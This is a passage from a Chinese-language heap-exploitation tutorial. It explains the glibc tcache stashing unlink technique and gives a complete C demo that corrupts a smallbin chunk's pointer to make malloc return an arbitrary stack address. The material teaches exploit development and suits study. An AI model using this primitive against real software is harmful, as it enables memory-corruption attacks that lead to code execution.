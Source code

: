 
这时tcache已满，且tcache顶部刚好是我们伪造那个`target_chunk`


由于smallbin摘链后chunk全部进入tcache，且已满，这时tcache对应idx入口处的chunk是`target_chunk`。如果再次调用malloc申请chunk，得益于从tcache分配时未仔细检查`chunk_head`，这时便会从tcache中将这个`target_chunk`分配出来，实现任意地址分配内存。


demo代码可参考V1me师傅写的
```c
#include<stdio.h>
#include<stdlib.h>
int main() {
    char buf[0x100];
    long *ptr1 = NULL, *ptr2 = NULL;
    int i = 0;

    memset(buf, 0, sizeof(buf));
    *(long *)(buf + 8) = (long)buf + 0x40;

    // put 5 chunks in tcache[0x90]
    for (i = 0; i < 5; i++) {
        free(calloc(1, 0x88));
    }

    // put 2 chunks in small bins
    ptr1 = calloc(1, 0x168);
    calloc(1, 0x18);
    ptr2 = calloc(1, 0x168);

    for (i = 0; i < 7; i++) {
        free(calloc(1, 0x168));
    }

    free(ptr1);
    ptr1 = calloc(1, 0x168 - 0x90);

    free(ptr2);
    ptr2 = calloc(1, 0x168 - 0x90);

    calloc(1, 0x108);

    // ptr1 and ptr2 point to the small bin chunks [0x90]
    ptr1 += (0x170 - 0x90) / 8;
    ptr2 += (0x170 - 0x90) / 8;

    // vuln
    ptr2[1] = (long)buf - 0x10;

    // trigger
    calloc(1, 0x88);

    // malloc from tcache
    ptr1 = malloc(0x88);
    strcpy((char *)ptr1, "Ohhhhhh! you are pwned!");
    printf("%s\n", buf);
    return 0;
}


```
